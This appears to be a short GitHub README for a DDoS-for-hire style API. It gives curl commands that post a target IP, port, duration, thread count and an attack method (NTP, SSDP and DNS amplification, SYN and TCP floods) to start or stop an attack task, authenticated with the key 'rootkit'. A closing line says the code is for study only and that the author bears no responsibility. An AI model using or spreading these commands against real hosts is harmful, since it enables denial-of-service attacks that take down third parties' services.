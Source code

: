 命令执行接口调用

### Env
* Centos 6/7
* Python 2.6/2.7+

### Run
```
# /opt/CmdApi/RunServer
```

### Call Api Example

* Task execution
```
# curl -sd "key=rootkit&host=[IP]&port=[PORT]&time=[time/sec]&thread=[threads]&method=[ntp|ssdp|dns|syn|tcp]&stop=0" http://ServerIp:Port/api
```

* Stop Task
```
# curl -sd "key=rootkit&host=[IP]&port=[PORT]&time=[time/sec]&thread=[threads]&method=[ntp|ssdp|dns|syn|tcp]&stop=1" http://ServerIp:Port/api
```

-- -
本代码仅供学习交流使用， 如用将该代码于非法用途所导致的后果自负，与作者无关...